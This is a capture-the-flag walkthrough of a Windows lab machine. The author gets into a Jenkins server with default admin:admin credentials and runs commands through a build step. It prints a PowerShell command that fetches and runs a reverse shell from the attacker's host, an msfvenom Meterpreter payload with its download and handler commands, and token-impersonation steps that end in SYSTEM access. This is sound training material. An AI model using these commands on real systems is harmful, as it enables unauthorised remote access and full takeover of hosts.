| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.113.167 |  |

---

Let's start off with a basic `nmap` scan on the target machine. The room states that the machine does not respond to ping (ICMP). Hence, we have to specify the `-Pn` tag in our nmap command. This will disable host discovery, basically skipping the process of pinging the target machine to see if it is alive.

```
sudo nmap -sC -sV -Pn -vv 10.10.113.167
```



From the results, we can see that there are 3 ports currently open: **80 (HTTP)**, **3389** and **8080 (HTTP)**

Let's first visit the web server on port 80. Navigating to the address, we are brought to the following page:



After looking through the website and running a `gobuster` directory scan, I was unable to find anything of interest. 

Let's move on to the web server on port 8080:



Nice! We found a login page to a Jenkins server. 

---

*Jenkins is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery (from Wikipedia).*

---

Let's try using a common default username and password to log in:

> admin : admin



Luckily for us, those credentials actually worked! We're now logged into the Jenkins dashboard.

The room then asks us to find a feature of the Jenkins tool that allows us to execute commands on the underlying system. After digging around, I managed to find a configuration page which allows us to input commands that will be executed server-side. To access this page, we click on the current project named 'project', then 'Configure' on the left-hand side, then move down to the 'Build' section:



In this field, we are able to input shell commands which will be executed once the project is built. Let's test this out so that we can  better understand how it works. We'll leave the command to be `whoami`.



Now, we simply click on 'Build Now' on the project page, then click on the corresponding build in the 'Build History' section, then click on 'Console Output' to see the results of our command:



We can see from the console output that our `whoami` was successfully run! This proves that we can run arbitrary commands on the server. 

Thus, let's use this to upload a reverse shell script that will grant us initial access into our target machine. Since this is a Windows machine, we'll use a Powershell [reverse shell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) that is part of the [Nishang framework](https://github.com/samratashok/nishang).

After downloading the reverse shell script onto our local machine, we then run a Python HTTP server so that we can transfer the script to our target.

Next, we input the following command into the 'Build' section of the project:

```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

The first part of this command will download the reverse shell script onto the target machine. It will then run the script using `Invoke-PowerShellTcp`.



Finally, we make sure to have a netcat listener up and ready to catch the connection.

With everything set up, let's go ahead and build the project!



And we're in!



**user.txt** is located in the desktop of the user bruce.

---

To make the privilege escalation process easier, let's switch to a Meterpreter shell using `metasploit`.

Firstly, we need to create a Windows-based reverse shell executable which can connect back to our Meterpreter listener. This can be done using `msfvenom`:

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o shell.exe
```



With our payload created, we upload it onto the target machine using the same command as before:

``` 
powershell "(New-Object System.Net.WebClient).Downloadfile('http://ATTACKER_IP:8000/shell.exe','shell.exe')"
```



For good measure, I'll also add in a `dir` command to list out the contents of the server directory. This is to confirm that our payload has been successfully uploaded onto the target machine.

After building the project, we can see from the console output that our malicious payload (shell.exe) has been successfully uploaded on the target machine:



Now, we just have to execute it using:

```
.\shell.exe
```



Before building, we need to have the appropriate handler up and running in Metasploit. We will be using the /multi/handler module:

```
use /multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST x.x.x.x 
set LPORT 4444
run -j
```

With everything set up, let's build the project:



We have successfully spawned a Meterpreter shell!

---

Now that we have initial access via a meterpreter shell, we can use **token impersonation** to gain system access.

Let's first spawn a shell that we can use. This can be done using the `shell` command in meterpreter.

Next, we use the `whoami /priv` command to view all privileges on this account:



As we can see, the **SeDebugPrivilege** and **SeImpersonatePrivilege** privileges have been enabled. We can exploit these privileges by using the `incognito` module in Metasploit. To load the module, we first exit out of the shell. Then we use the `load incognito` command: 



Loading this module gives us more commands that we can run in meterpreter:



We will be using the `list_tokens` command:

```
list_tokens -g
```

*(The -g tag lists tokens by unique groupname)*



From the results, we can see that the **BUILTIN\Administrators** delegation token is available. We can then use the `impersonate_token` command to use this token. This will then allow us to impersonate the root user (NT AUTHORTIY\SYSTEM):

```
impersonate_token "BUILTIN\Administrators"
```



With that, we have now impersonated the root user!

However, even though we are currently using a higher privileged token, we may not actually have the permissions of a privileged user (this is due to the way Windows handles permissions: it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do). 

Hence, we need to make sure that we migrate to a process with the correct 'NT AUTHORITY\SYSTEM' permissions. According to the room, the safest process to migrate to is the **services.exe** process. Let's migrate to that process now.

Before doing so, we need to find the PID of the process. We can use the `ps` command:



The PID of services.exe is **668**. 

Now let's migrate to the process:

```
migrate 668
```



After the migration is complete, we finally have the permissions of 'NT AUTHORITY\SYSTEM'. 

We now spawn a root shell using the `shell` command. We can then read the **root.txt** file located in C:\Windows\System32\config using the `TYPE` command:


